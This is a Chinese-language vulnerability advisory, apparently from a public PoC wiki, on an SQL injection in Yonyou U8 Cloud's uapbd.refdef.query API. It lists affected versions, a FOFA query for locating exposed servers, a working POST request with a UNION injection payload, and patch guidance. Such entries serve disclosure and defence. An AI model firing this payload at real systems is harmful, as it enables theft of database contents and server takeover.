

# 用友U8 Cloud uapbd.refdef.query SQL注入漏洞

# 漏洞描述

用友U8 Cloud uapbd.refdef.query 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

version = 1.0,2.0,2.1,2.3,2.5,2.6,2.65,2.7,3.0,3.1,3.2,3.5,3.6,3.6sp,5.0,5.0sp,5.1

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title=="U8C"

POC/EXP：

POST /u8cloud/openapi/uapbd.refdef.query?appcode=huo&isEncrypt=N HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/json
Accept-Encoding: gzip
Connection: close

{"refName":"1%' UNION ALL SELECT 1,CONVERT(INT,@@VERSION),1-- "}

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级补丁<U8CLOUD系统API接口uapbd.refdef.query存在SQL注入漏洞的安全补丁>

漏洞公告：

https://security.yonyou.com/#/noticeInfo?id=590

补丁链接：https://security.yonyou.com/#/patchInfo?identifier=563f888c335e4824a7a3c08353e597dd

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
